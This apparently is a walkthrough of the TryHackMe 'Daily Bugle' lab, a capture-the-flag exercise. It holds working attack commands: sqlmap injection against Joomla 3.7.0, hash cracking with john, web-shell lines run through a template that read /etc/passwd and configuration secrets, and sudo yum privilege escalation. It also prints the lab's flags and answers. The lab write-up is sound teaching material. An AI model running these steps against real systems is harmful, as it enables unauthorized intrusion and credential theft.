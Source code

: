 # Daily Bugle Walkthrough
### Link
- https://tryhackme.com/room/dailybugle
---
### Task 1 - Deploy
**Question**
###### Who robbed the bank?
**Answer**
###### spiderman
---
### Task 2 - Obtain user and root
1. Reco
- NMAP
```shell
nmap -sC -sV [IP] 
Result:
--> Port 22/80/3306 opened
--> Port 3306: MariaDB
```
- Gobuster
```
gobuster dir -u http://[IP]:80 -w [path to wordlist]
Directories found:
/images
/templates
/media
/modules
/bin
/plugins
/includes
/language
/components
/cache
/libraries
/tmp
/layouts
/administrator
```
- Joomscan

We know **Joomla** is installed.
We have an interesting tool : joomscan (https://www.kali.org/tools/joomscan/)

```
joomscan -u [IP]
```
**Question**
###### What is the Joomla version?
**Answer**
###### Joomla 3.7.0

2. Find and use an exploit

With the Joomla version, we can try to find an exploit
```
searchsploit joomla 3.7.0
Result:
Joomla! 3.7.0 - 'com_fields' SQL Injection         | php/webapps/42033.txt
Joomla! Component Easydiscuss < 4.0.21 - Cross-Sit | php/webapps/43488.txt
```

So let's now focus on the first one : SQL Injection
Explore the txt file to understand the exploit
```
searchsploit -x php/webapps/42033.txt
```

We have a beautiful sqlmap commandline to help us ^_^

3. SQLMAP 
```
SQLMAP:
sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```
*Info* : I don't use the option *--level=5* to perform the command to obtain the result more faster.

Now, let's check all tables 
```
sqlmap -u "http://10.10.59.102/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --random-agent --dbs -p list[fullordering] --threads 10 -D joomla --tables
```

We found too many tables: 72
Let's focus on __schemas , __session , __users , __user_keys
After few research, only **__users** give us interesting informaiton.
```
sqlmap -u "http://10.10.27.8/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --random-agent --dbs -p list[fullordering] --threads 10 -D joomla -T "#__users" --dump

Result:
+-----+------------+---------------------+---------+--------------------------------------------------------------+----------+
| id  | name       | email               | params  | password                                                     | username |
+-----+------------+---------------------+---------+--------------------------------------------------------------+----------+
| 811 | Super User | jonah@tryhackme.com | <blank> | $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm | jonah    |
+-----+------------+---------------------+---------+--------------------------------------------------------------+----------+
```

We have the hash password for the **Super User** : jonah

4. Decrypt the password
- Firt : find the hash type
**$2y$**10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm 
- Second : search in Internet what is this type
**bcrypt**
- Thrid : Use john and decrypt the password
    - Create a file and copy/paste the hash
    - Use john
```
john -format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash_jonah
```

**Question**
###### What is Jonah's cracked password?
**Answer**
###### spiderman123

5. Joomla

Let's navigate in the administration portal.
User --> just jonah is here with super user privileges
User Groups --> Only 1 user (Jonah) is here

Now let's move to **Configuration/Global** --> Nothing really special
Move to **Configuration/Templates** --> **One Template is used for allpages: Protostar**. Good information. We probably use this template to gather more informaiton.

We can edit this template to see if we can exploit it by adding some code. For that: 
- Click on Templates and select Protostar
- Edit index.php
- Add the line: 
```
system("cat /etc/passwd")
```
- Save and refresh the Home page
**Finding** : Jonah Jameson:/home/jjameson:/bin/bash

Now we can try to find some information in configuration.php
- Add the line : 
```
system("cat configuration.php")
```
**Finding** : public $user = 'root'; public $password = 'nv5uz9r3ZEDzVjNu'

6. SSH

With the user **jjameson** and this password **nv5uz9r3ZEDzVjNu**, we can SSH the server.

**Question**
###### What is the user flag?
**Answer**
###### 27a260fe3cba712cfdedb1c86d80442e

7. Privilege escalation

- First: check what actions can do jjameson
```
sudo -l
Result: jjameson can execute yum
```
- Second: check https://gtfobins.github.io/gtfobins/yum/
- Third: Create a file and copy/paste all command from the website
- Fourth : Make this file executable
```
chmod +x yum.sh
```
- Fifth : execute
```
./yum.sh
```
- Sixth: We are **root**

**Question**
###### What is the root flag?
**Answer**
###### eec3d53292b1821868266858d7fa6f79





